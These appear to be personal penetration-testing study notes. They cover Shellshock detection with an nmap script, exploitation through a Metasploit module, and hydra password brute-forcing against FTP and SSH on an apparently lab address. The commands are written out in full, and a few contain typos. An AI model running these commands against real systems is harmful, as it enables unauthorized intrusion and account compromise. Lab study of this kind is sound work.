 #### Bash Exploit: Shellshock
![](https://miro.medium.com/v2/resize:fit:720/format:webp/0*RaGT5xB77Sf_lZLs.jpg)
* [Shellshock Code & the Bash Bug - Computerphile (youtube.com)](https://www.youtube.com/watch?v=MyldPMn95kk&ab_channel=Computerphile)
* Scan for the target:  Nmap Scan
```bash
nmap -sV <ip> --script=http-shellshock --script-args "https-shellshock.uri=/gettime.cgi"
```
* Exploit the vulnerability through Burp Suite payloads
![[Screenshot 2024-07-15 at 12.39.30 PM.png]]
* Msfconsole
```bash
 msfconsole -q
 search shellshock
 use exploit/multi/http/apache_mod_cgi_bash_env_exec
 set RHOSTS <ip>
 set TARGET <uri path contain cgi filename>
 exploit
 
```
* Source Code find the /gettime.cgi
	* ![[Screenshot 2024-07-15 at 12.59.51 PM.png]]
#### FTP Exploit: 
* Brute Force
```bash
hydra -L <username list> -P <password list> <ip> -t <number of parrallel> ftp
```
#### SSH Exploit

hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P  /usr/share/metasploit-framework/data/wordlists/common_passwords.txt  192.42.85.2 t 5 ssh